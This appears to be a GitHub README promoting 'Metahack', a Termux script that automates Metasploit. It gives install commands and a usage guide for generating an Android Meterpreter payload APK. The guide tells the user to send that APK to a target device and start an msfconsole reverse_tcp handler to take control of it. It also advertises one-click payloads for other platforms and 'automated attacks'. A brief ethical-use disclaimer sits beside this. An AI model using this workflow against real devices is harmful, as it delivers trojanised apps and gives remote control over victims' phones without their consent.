 #  Metahack - Advanced Metasploit Automation Tool  

![GitHub Repo stars](https://img.shields.io/github/stars/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub forks](https://img.shields.io/github/forks/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub issues](https://img.shields.io/github/issues/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub license](https://img.shields.io/github/license/HYDRA-TERMUX/Metahack?style=for-the-badge)  

🚀 **Metahack** is a **powerful penetration testing tool** that automates Metasploit in Termux. It helps ethical hackers and cybersecurity professionals **generate payloads, automate exploits, and manage sessions easily**. Whether you’re a beginner or an expert, Metahack simplifies Metasploit usage and boosts efficiency.  

---

## 🚀 Features  

✅ **Automated Metasploit Setup** – No manual installation needed!  
✅ **One-Click Payload Generator** – Easily create payloads for Android, Windows, and Linux.  
✅ **Pre-Configured Exploits** – Execute common Metasploit exploits effortlessly.  
✅ **Session Management** – Monitor and control active Meterpreter sessions.   
✅ **User-Friendly Interface** – Simple CLI with guided steps.  

---

## 📌 Requirements  

Before using Metahack, ensure you have:  
- ✅ **Android device** with **Termux** installed.  
- ✅ At least **1GB of free storage**.  
- ✅ **Stable internet connection** for downloading dependencies.  
- ✅ Basic understanding of Metasploit Framework (MSF).  

---

## 🛠 Installation  

To install Metahack on Termux, run the following commands:  

```bash
pkg update && pkg upgrade -y  
pkg install git python curl -y  
git clone https://github.com/HYDRA-TERMUX/Metahack  
cd Metahack  
chmod +x metarun.sh  
bash metarun.sh 
```

After installation, launch the tool with:  

```bash
bash metarun.sh
```

🔹 **Metahack will handle Metasploit installation and setup automatically!**  

---

## 🎯 Usage Guide  

### 🔹 Generate an Android Payload  

1. Select **Payload Generator** from the main menu.  
2. Enter the target **LHOST (your IP address)**.  
3. Enter the **LPORT (listening port)**.  
4. The payload APK will be generated and saved in the `output` folder.  
5. Send the APK to the target device and start the listener in Metasploit:  

```bash
msfconsole -q  
use exploit/multi/handler  
set payload android/meterpreter/reverse_tcp  
set LHOST <Your-IP>  
set LPORT <Port>  
exploit  
```

### 🔹 Start Metasploit Console  

Metahack allows you to launch Metasploit directly:  

```bash
bash metarun.sh --msf
```

### 🔹 Automate Exploits  

Run pre-configured Metasploit scripts for automated attacks:  

```bash
bash metarun.sh --exploit android
```
## 📥One-Click Payload Generator

![Metahack Screenshot](IMG/website.jpg)



---

## 📸 Screenshots  

![Metahack Screenshot](IMG/user_int.jpg)


---

## ⚠️ Legal Disclaimer  

🚨 **Warning!** Metahack is a tool for **ethical hacking, penetration testing, and educational purposes only**.  
🚫 Unauthorized access to devices, networks, or systems **without permission is illegal**.  
📜 The developer is **not responsible for any misuse or illegal activities** performed using this tool.  

---

## 💡 Contributing  

Want to improve Metahack? We welcome contributions!  

1. **Fork the repository** on GitHub.  
2. **Create a new branch** for your changes.  
3. **Make improvements** (bug fixes, features, etc.).  
4. **Submit a pull request** with a detailed explanation.  

---

## 📬 Contact & Support  

📩 **Developer:** [Your Contact Info]  
🐞 **Report Bugs:** Open an [issue](https://github.com/HYDRA-TERMUX/Metahack/issues).  
⭐ **Like this project?** Give it a **star** on GitHub!  

---

### 🚀 **Turn your Android into a powerful hacking machine with Metahack!**  

🔥 **[Download Now](https://github.com/HYDRA-TERMUX/Metahack)** 🔥  
